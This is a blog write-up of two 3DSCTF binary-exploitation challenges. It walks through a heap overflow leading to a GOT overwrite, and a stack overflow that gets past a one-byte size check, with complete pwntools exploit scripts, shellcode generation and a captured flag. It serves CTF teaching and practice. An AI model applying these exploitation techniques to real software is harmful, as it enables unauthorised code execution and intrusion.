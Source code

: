 ```yaml
---
layout: default
title:  "3DSCTF - Cupheap, MrRobof" 
date:   2018-01-14
author: dreamist
categories: update post 3dsctf writeup pwn python
---
```


In between flights I had gotten to doing two of the PWN challenges in 3DSCTF.
Here I shall explain as best I can the notes I took during the event.

## Cupheap

First things first, we're exploiting a 64-bit x86 binary with NX enabled, partial RELRO,
and neither PIC nor stack canaries.

When you run the binary, you get the following opening prompt.

```
       Well Cuphead and his pal Mugman
            They like to roll the dice
                   By chance they came
                        On Heap's game
          And gosh they paid the price
                      (Paid the price)

              And now they're fighting
                       For their lives
       On a mission fraught with dread
                   And if they proceed
                     But don't succeed
Well, the Devil will take their faults

After loose a bet against The Devil, now they need to collect 
 memory contracts to bargain for their souls.

Choose one option:

1 - Collect memory
2 - Defeat Dice right-hand of The Devil
3 - Give up
```

Cool stuff.

Each time you collect memory, you're randomly incrementing a global variable `contracts`
in amounts of 0, 0x400, or 0x800 in rounds of five. You start with 0x100. 
On a few different specific amounts,
new options open up. Randomization seeded with `srand(time())`.

Also, when the main function first runs, there's four calls to malloc, moving the heap
into something like this, where each cell is 8 bytes in length.

```
Malloc 1 (0x10)
.--------------------------.
|___0x1_____|___malloc2_ptr|
                   |          
Malloc 2 (0x8)     |
-------------      |
|__empty____|<-----*

Malloc 3 (0x10)
.--------------------------.
|___0x1_____|___malloc4_ptr|
                   |          
Malloc 4 (0x8)     |
-------------      |
|__empty____|<-----*

```

The pointers to the Malloc 1 and Malloc 3 region (both containing pointers to the
2nd and 4th) are stored on the stack. Under glibc's malloc implementation, these
allocations are contiguous, one coming right after the other, which opens up the 
door for us when we can hit the `mausoleum` function. This function can only
be reached after reaching 0x1100 souls, achievable with checks in a loop.
I mentally decompiled this function from the disassembly into the following C-psuedocode.

```
void mausoleum(){
	extern (void*) malloc1[2];
        extern (void*) malloc3[2];
        char buffer[0x1000];
        printf("You are in the Mausoleum...\n");
        fgets(buffer, 0x1000, stdin);
        strcpy(malloc1[1], buffer);
        fgets(buffer, 0x1000, stdin);
        strcpy(malloc3[1], buffer);
}
```
 
The neat ordering of the allocations allow us to use strcpy to overflow through Malloc 2,
and into Malloc 3 such that we can overwrite the pointer to Malloc 4. Then
when strcpy gets called again, we can essentially get an arbitrary write into anywhere in the
process space.

The arbitrary write might have a number of good targets, but the most convenient is the
[Global Offset Table](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) entry for `exit`, since it's called very soon after. After doing some
additional enumeration of abusable functions within the binary, I notice one that was
compiled in, but never called. `visitHell` turned out to read the flag from a file on the local
file system, removing the need for me to get a shell. 

Here's the essential exploit.

```
#!/usr/bin/python

from pwn import *

binary = "cupheap"
elf = ELF(binary)
chall, port = "cupheap01.3dsctf.org", 8007

context.log_level = "DEBUG"
DEBUG = False


def getpipe():
    if DEBUG:
        return process(binary)
    else:
        return remote(chall, port)

"""
In order to reach the vulnerable code in mauosoleum,
we have to get exactly 0x1100 in the variable contracts.
This variable is printed out in hex after every use of the
first menu option "Collect memory."

This has to be tried repeatedly until we get exactly 0x1100.
"""
p = None

def getContracts(proc):
    while True:
        proc.recvuntil("Give up\n")
        proc.send("1\n")
        proc.recvuntil("You have ")
        contracts = int(proc.recv(6), 16)
        if contracts == 0x1100:
            return True
        elif contracts > 0x1100:
            return False

p = getpipe()

while getContracts(p) != True:
    p.close()
    p = getpipe()

"Drop into the second menu form immediately by giving some char not 1-3"
if "What's next?" not in p.recv():
    p.send("\n\n")

p.recv()

"""
At this point, we should be granted access to the Mausoleum.

Now we take advantage of adjacent heap allocations.
"""

p.send("4\n") #Enter the Mausoleum

""" Overwrite pointer to malloc4 with exit()'s GOT entry."""
payload1 = flat([0xAAAAAAAAAAAAAAAA]*5, elf.got['exit'], word_size=64)

p.sendline(payload1)
#What's visitHell()?
visitHell = elf.symbols[u'_Z9visitHellv']
payload2 = flat(visitHell, word_size=64)
p.sendline(payload2)

print p.recv()

#3DS{y0u_ALL_fr33_0F_th3_H34Ps_d3BT}
```

# MrRobof

> Sometimes, Elliot needs to do boring work.

No NX, no stack canary, and no PIC despite using code that loads data position-independent.

The binary reads in arbitrarily-sized data into a size-0x28 (40 bytes) buffer on the stack.
The trick is that the input is put through two sets of input validation, 
in `validateSize` and `validateIP`.

`validateIP` simply loops through the first 40 characters to only allow an ipv6 address.
`validateSize` takes the size of the input into a single byte, and compares that single BYTE
against 40. 

In order to bypass, the first 40 characters need to be a valid ipv6 address, and
the recorded size count must be between 0 and 0x28 when stuck in a single byte.

So, without NX I first set out to get a shell by getting our EIP to point to the stack, but
after doing some enumeration, a compiled-yet-unused function was again the easiest way to get
the flag. Some of the code in the following exploit is then probably unnecessary,
since I didn't need my own shellcode.

```
from pwn import *

binary = "mrrobof" #Renamed just because
chall, port = "mrrobof01.3dsctf.org", 8006
e = ELF(binary)

context.log_level = "DEBUG"
DEBUG = False

def getpipe():
    if DEBUG:
        return process(binary)
    else:
        return remote(chall, port)

input_len = 0x1ff00

"""Send an example ip str + someint*0x100 + randrange(0x2,0x28)"""
ip_ex = "2001:0db8:85a3:0000:0000:8a2e:0370:7334."

shellcode = asm(shellcraft.linux.sh())

"""Heh, might not be PIE after all. But there's something I missed again."""
readIPs = e.symbols['readIPs'] #Again?
control_eip = flat("A"*12, readIPs)

padding = "\x90"*(input_len - len(shellcode) - len(ip_ex) - len(control_eip))
code = padding + shellcode

payload = ip_ex
payload += control_eip
payload += code
payload += '\x90'*3 #Need counting byte of 0x2-0x28 to pass, last gets chopped

print "Length:", hex(len(payload))

open("payload","w").write(payload)

p = getpipe()
p.sendline(payload)
print p.recv()
time.sleep(0.3)

if DEBUG and p.poll() == None:
    print p.recv()
if not DEBUG:
    print p.recv()

```

Didn't write down the flag to this one.

